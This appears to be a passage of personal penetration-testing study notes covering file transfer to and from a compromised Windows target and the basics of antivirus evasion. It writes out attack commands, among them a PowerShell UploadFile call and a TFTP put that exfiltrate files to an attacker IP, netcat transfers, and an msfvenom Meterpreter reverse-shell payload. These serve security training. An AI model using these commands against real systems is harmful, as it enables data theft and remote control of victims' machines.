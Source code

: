             `cp /usr/share/windows-resources/binaries/nc.exe .`
                copy it to current dir
            `ls -lh nc.exe `
                to see its size of 58K
            `upx -9 nc.exe`
                `upx` is a exacutable packer (PE compression tool) to reduce
                    by 50% and can still be ran as normal
            `exe2hex -x nc.exe -p nc.cmd`
                to convert to hex
            `head -n 3 nc.cmd`
                shows that it consists mostly of `echo` cmds (non-interactive)
            `tail nc.exe`
                shows at the end that `nc.exe` will be rebuilt on tgt
            `cat nc.cmd | xclip -selection clipboard`
                will copy to clipboard like `pbcopy` will
            Then paste to windows bind shell and it is on the system
    #windows uploads using windows scripting languages
       might need to exfil data from windows client tgt and can't install
           additional software
       * if outbound http is allowed use `System.Net.WebClient` powershell
           class to upload data to Kali via `HTTP POST request`
       ex. going to upload `evil.exe` from windows to kali
       [uploads_via_http_post](uploads_via_http_post) stored on kali in `/var/www/html` so our windows 
           tgt can connect to apache  with `UploadFile()` and use it to
           upload a file to `/var/www/uploads`
		   `mkdir /var/www/uploads`
           `ps -ef | grep apache`
                apache uses the www-data user and our script will save with
                that user so we need to change the permissions of our new dir
                from root to www-data
		   `chown www-data: /var/www/uploads`
       paste in windows shell: 
       `powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.203/upload_via_http_post.php', 'evil.exe')`
           uses our php script on kali apache server to give directions for
           UploadFile on where to store our tgt file
    #uploading files with TFTP
        can transfer files on older windows and up to XP and 2003
        setup:
            `apt install atftp`
            `mkdir /tftp`
            `chown nobody: /tftp`
            `atfpd --daemon --port 69 /tftp`
                runs atfpd as a daemon on UDP port 69 and server files from
                /tftp
        in windows shell: `tftp -i 192.168.119.203 put evil.exe`
            will connect to tftp and use `put` to upload file to kali
            windows shell may hang or say no connection but it does transfer
            becuase its over UDP and will not get a confirm packet back
#Antivirus Evasion
    AV is an app to prevent, detect, and remove malware
    #methods of detecting malicious code
        `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f exe > binary.exe`
            to make a common malware and scan it with https://www.virustotal.com/gui/
            to see which AVs will detect it but saves its hash as public
        transfer to windows for analysis:
            windows: `nc.exe -lvnp 4455 > C:\Users\admin\Desktop\binary.exe`
            kali: `nc -w 3 192.168.203.10 4455 < ~/workspace/binary.exe`
    #detection methods
        `signature based` is a blacklist tech: scans for known malware
            signatures  nd quarantines them. Can bypass by changing or obfuscating
            contents of malcode
        `heuristic-based` uses rules or algorithms to determine if actions are
            malicious. Done by stepping thru instruction set of a binary or